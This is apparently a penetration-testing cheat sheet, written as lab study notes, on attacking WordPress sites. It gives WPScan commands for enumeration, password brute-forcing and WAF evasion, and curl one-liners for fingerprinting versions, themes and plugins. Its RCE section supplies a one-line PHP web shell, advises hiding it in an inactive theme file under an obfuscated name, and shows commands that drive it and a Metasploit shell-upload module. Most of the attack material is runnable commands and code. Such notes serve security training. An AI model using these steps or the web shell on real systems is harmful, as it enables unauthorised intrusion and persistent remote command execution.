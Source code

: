 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

### Directories

* `/wp-admin` -> `/wp-login.php`
* `/wp-content/plugins/`
* `/wp-content/themes/`

### Roles & Permissions

<table><thead><tr><th width="192">Role</th><th>Permissions</th></tr></thead><tbody><tr><td>Administrator</td><td>King!</td></tr><tr><td>Editor</td><td>Post management + publish (for all users)</td></tr><tr><td>Author</td><td>Post management + publish (owned posts)</td></tr><tr><td>Contributor</td><td>Post management (owned posts)</td></tr><tr><td>Subscriber</td><td>Browse posts, manage its own profile</td></tr></tbody></table>

## WPScan

> For vulnerability scanning a token is needed from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

{% embed url="https://github.com/wpscanteam/wpscan" %}
WPScan's GitHub repository.
{% endembed %}

{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
Wiki page for WPScan.
{% endembed %}

## Manual

{% tabs %}
{% tab title="Version" %}
```bash
curl -s http://blog.inlanefreight.local | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s http://blog.inlanefreight.local/ | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s http://blog.inlanefreight.local/ | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

\*_Plugin version enumeration_ r_equires Directory listing to be enabled._

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?c=id
```

## Metasploit

```bash
msfconsole -q
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

{% tabs %}
{% tab title="Launch Metasploit" %}
```bash
msfconsole -q
```
{% endtab %}

{% tab title="Use MSF's module*" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*Make sure to `set VHOST`!
{% endhint %}
